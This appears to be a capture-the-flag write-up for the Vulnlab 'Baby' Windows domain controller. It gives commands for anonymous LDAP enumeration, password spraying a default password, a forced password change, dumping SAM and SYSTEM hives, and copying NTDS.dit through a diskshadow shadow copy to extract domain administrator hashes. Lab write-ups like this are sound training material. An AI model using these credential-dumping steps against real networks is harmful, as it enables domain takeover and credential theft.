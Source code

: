 ```yaml
---
cover: https://photos.squarezero.dev/file/abir-images/Baby/logo.png
date: 2024-06-21 09:45:47 +07:00
modified: 2024-06-21 09:45:47 +07:00
categories: Vulnlab
machine_author: 
  name: jkr
  link: https://app.hackthebox.com/users/77141
tags: [Nmap, SMB, LDAP, SeBackupPrivilege, Diskshadow, Secretsdump, Brute Force, Password Change, Shadow Copy, Robocopy, smbpasswd, VulnLab, Baby ]

title: Baby - Vulnlab
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/vulnbanner.png)

Baby is an &quot;easy&quot; difficulty machine, Where I had to enumerate open ports and services, leverage LDAP and SMB services to gain initial access, utilize SeBackupPrivilege to extract sensitive files and employ various tools to achieve privilege escalation and capture the root flag.

### Difficulty:

`Easy`


# Enumeration
The Nmap scan shows the following ports.

```bash
PORT      STATE SERVICE       VERSION         
53/tcp    open  domain        Simple DNS Plus 
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-06-21 13:49:35Z)
135/tcp   open  msrpc         Microsoft Windows RPC     
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds?       
464/tcp   open  kpasswd5?           
3389/tcp  open  ms-wbt-server Microsoft Terminal Services  
| ssl-cert: Subject: commonName=BabyDC.baby.vl
| Not valid before: 2024-06-20T13:28:17       
|_Not valid after:  2024-12-20T13:28:17       
|_ssl-date: 2024-06-21T13:51:05+00:00; -2s from scanner time.             
| rdp-ntlm-info:  
|   Target_Name: BABY
|   NetBIOS_Domain_Name: BABY       
|   NetBIOS_Computer_Name: BABYDC   
|   DNS_Domain_Name: baby.vl        
|   DNS_Computer_Name: BabyDC.baby.vl         
|   Product_Version: 10.0.20348     
|_  System_Time: 2024-06-21T13:50:25+00:00
```

Next, I check SMB shares with an anonymous login but no luck. I moved to ldap where I was able to list the users in the domain.

`netexec ldap 10.10.95.186 -u '' -p '' --user`

![](https://photos.squarezero.dev/file/abir-images/Baby/0.png)

After that, I checked the user's description and got the default passwords for new users.

`netexec ldap 10.10.95.186 -u '' -p '' --user -M get-desc-users`

![](https://photos.squarezero.dev/file/abir-images/Baby/1.png)

# Password_MUST_Change

I used the default password against Teresa and it didn't work. So I have collected all the users and bruteforce using the default password.

![](https://photos.squarezero.dev/file/abir-images/Baby/2.png)

As seen in the result when trying to login using the default password Caroline needs to change her password. I can change the password remotely using SMBPASSWD. And with the new password, I logged into the machine and got the user flag.

`smbpasswd -r 10.10.95.186 -U caroline.robinson`

![](https://photos.squarezero.dev/file/abir-images/Baby/3.png)

![](https://photos.squarezero.dev/file/abir-images/Baby/4.png)

# SeBackupPrivilege

I checked the permissions and SeBackupPrivilege was enabled.

![](https://photos.squarezero.dev/file/abir-images/Baby/5.png)

With this permission, I copied SAM and SYSTEM files.

`reg.exe save hklm\sam C:\Users\Caroline.Robinson\Desktop\sam.save`
`reg.exe save hklm\system C:\Users\Caroline.Robinson\Desktop\system.save`

![](https://photos.squarezero.dev/file/abir-images/Baby/6.png)

After transferring the files to my machine I used Secrectsdump to get the administrator's password.

![](https://photos.squarezero.dev/file/abir-images/Baby/7.png)

But when I couldn't login using that administrator hash as it's for local admin.

![](https://photos.squarezero.dev/file/abir-images/Baby/8.png)

To get the root flag I need to get the administrator of DC. For that I need NTDS.dit alongside SAM and SYSTEM.
I used diskshadow.exe to create a Shadow copy of the C drive. At first, I created a script which has all the commands needed to create a backup using Diskshadow.

```
set metadata C:\Windows\System32\spool\drivers\color\sss.cabs
set context clientaccessibles
set context persistents
begin backups
add volume c: alias coldfx#
creates
expose %coldfx% z:#
```

After that, I ran the script with Diskshadow which created the shadow drive of C. 

![](https://photos.squarezero.dev/file/abir-images/Baby/9.png)

Now using Robocopy I can transfer NTDS.dit.
`robocopy /B z:\Windows\NTDS .\ntds ntds.dit`

![](https://photos.squarezero.dev/file/abir-images/Baby/10.png)

Now I used Secrectsdump again to dump the hash of Domain Administrator and got root.txt

![](https://photos.squarezero.dev/file/abir-images/Baby/11.png)

![](https://photos.squarezero.dev/file/abir-images/Baby/12.png)

# Bonus

### LDAP Enumeration Alternative
Using Ldapsearch for enumeration
`ldapsearch -H ldap://10.10.92.79 -D '' -w '' -b "DC=baby,DC=vl"`

### SeBackupPrivillege Alternative
If the Sebackupprivillege was disabled this can be used to read the flag without needing to login to administrator.

[SeBackupPrivilege](https://github.com/giuliano108/SeBackupPrivilege)

```
Import-Module .\SeBackupPrivilegeCmdLets.dll
Import-Module .\SeBackupPrivilegeUtils.dll
Set-SeBackupPrivilege
Get-SeBackupPrivilege
Copy-FileSeBackupPrivilege 'C:\Users\Administrator\Desktop\root.txt' .\root.txt
```

![](https://photos.squarezero.dev/file/abir-images/Baby/13.png)







